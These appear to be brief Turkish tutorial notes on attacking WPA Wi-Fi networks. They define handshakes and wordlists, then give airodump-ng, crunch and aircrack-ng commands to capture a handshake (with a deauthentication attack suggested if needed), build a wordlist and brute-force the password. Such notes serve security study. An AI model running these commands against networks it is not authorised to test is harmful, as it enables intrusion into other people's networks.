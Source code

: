 ### Ağlara Saldırmak

**_ WPA _**
WPA (Wi-Fi Protected Access), kablosuz ağlarda veri güvenliğini sağlamak için kullanılan bir şifreleme ve kimlik doğrulama protokolüdür.

-Handshake- kablosuz bir ağa (Wi-Fi) bağlanmak isteyen bir cihaz ile modem (router) arasında yapılan kimlik doğrulama işlemidir.

-Wordlist- siber güvenlikte ve özellikle brute-force saldırılarında kullanılan, içinde şifre olabilecek kelimelerin (parola tahminlerinin) bulunduğu metin dosyasıdır (.txt).

//terminalle password kırma

~iwconfig //monitor moda geç
~airodump-ng wlan0mon //ağ bilgileri al
~airodump-ng --channel 9 --bssid E4:C3:2A:B7:23:90 --write airodumptest wlan0mon //handshake üstte çıkar.Çıkmazsa ağdan atma saldırısı yap. Sonra çıkacaktır. handshake çıkmış halde write yazdırdığın dosya lazım

//Crunch kali de yüklüdür
~crunch 8 9 xy123 -o testwordlist // 8-9 haneli password, içerisinde xy123 geçen
~aircrack-ng handshake-file-01.cap -wtestwordlist // üstteki dosyaları ekle kırmaya başlar
